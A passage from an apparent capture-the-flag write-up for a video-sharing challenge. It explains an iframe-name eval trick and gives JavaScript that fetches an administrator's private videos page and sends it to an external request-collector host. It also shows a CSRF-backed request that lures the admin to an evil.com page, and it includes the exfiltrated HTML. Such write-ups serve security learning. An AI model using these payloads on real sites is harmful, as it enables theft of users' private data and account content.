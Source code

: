 5. This, of course, translates to `<script>eval(top[1].name)</script>`, meaning that we are executing the iframe name as Javascript
6. For our own convenience, the Javascript code hidden in the iframe name just loads another javascript file where we can easily develop our real exploit logic

#### 3. The Real Exploit Logic

In our case, we'll just fetch the administrators personal `videos` page and send it to our server:

```javascript
fetch('https://en71jkw9fg9w2.x.pipedream.net/?loaded')

fetch('https://somevideos.appsecil.ctf.today/videos/').then(function (response) {
	// The API call was successful!
	return response.text();
}).then(function (html) {
	// This is the HTML from our response as a text string
	fetch('https://en71jkw9fg9w2.x.pipedream.net/?videos', {
    method: 'post',
    body: html
  })
}).catch(function (err) {
	// There was an error
	fetch('https://en71jkw9fg9w2.x.pipedream.net/?error=' + err)
});
```

#### 4. Luring the Admin

We'll just use the commented-out API that we've seen before:

```javascript
fetch("/videos/listing-request", {
    method: 'POST',
    headers: {
      'Content-Type': 'application/x-www-form-urlencoded'
    },
    body: new URLSearchParams({
      csrf: 'ELT+o9BwjBfvY4lpXg8SYQzNtlAJP8Fs6POEdTC9ZfA=',
      url: 'http://evil.com/some.html'
    })
  });
```

#### 5. The Reward

After a few seconds, we get a hit on our server with the admin's personal video list:

```html
<!DOCTYPE html>
<html>
  <head>
    <meta charset="UTF-8">
    <meta name="viewport" content="width=device-width, initial-scale=1.0">
    <title>SomeVideos</title>
    <link rel="stylesheet" href="//cdn.jsdelivr.net/npm/bulma@0.9.1/css/bulma.min.css">
  </head>
  <body>
    <nav class="navbar is-dark">
      <div class="container">
        <div class="navbar-brand"><a class="navbar-item" href="/">SomeVideos</a><a class="navbar-burger burger" data-target="#navbar-nain"><span></span><span></span><span></span></a></div>
        <div class="navbar-menu" id="navbar-nain">
          <div class="navbar-end">
            <div class="navbar-item has-dropdown is-hoverable"><a class="navbar-link">admin</a>
              <div class="navbar-dropdown"><a class="navbar-item" href="/videos">Your videos</a>
                <hr class="navbar-divider">
```